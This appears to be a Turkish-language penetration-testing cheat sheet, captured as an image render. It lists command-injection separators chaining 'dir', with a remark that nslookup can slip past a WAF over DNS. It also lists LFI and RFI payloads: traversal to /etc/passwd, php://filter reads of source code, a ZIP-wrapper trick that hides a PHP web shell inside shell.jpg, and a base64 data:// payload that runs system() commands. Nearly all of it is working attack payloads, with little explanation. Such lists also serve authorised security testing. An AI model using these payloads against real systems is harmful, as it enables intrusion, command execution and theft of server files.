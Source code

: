 ```jsx
$(`dir`)
& dir
&&dir
&& dir
| dir C:\
; dir C:\
& dir C:\
&& dir C:\

nslookup güzel çözümlerden(diğer komutlar WAF'a takılabilir ancak DNS dışarıya çıkabilir.)
```

[https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)

[Bypass Linux Shell Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

## Local File Inclusion-Remote File Inclusion (LFI&RFI)

Daha detaylı yükler sanal makinede bulunmaktadır.

```jsx
etc/passwd
etc/passwd%00
../../etc/passwd
%252e%252e%252f
....//....//etc/passwd
```

LFI Wrapper rot13 and base64 - php://filter case insensitive.

```jsx
/index.php?page=php://filter/read=string.rot13/resource=index.php
/index.php?page=php://filter/convert.base64-encode/resource=index.php
/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

**LFI Wrapper ZIP :**

```jsx
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

**RFI Wrapper DATA with "" payload :**

```jsx
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```
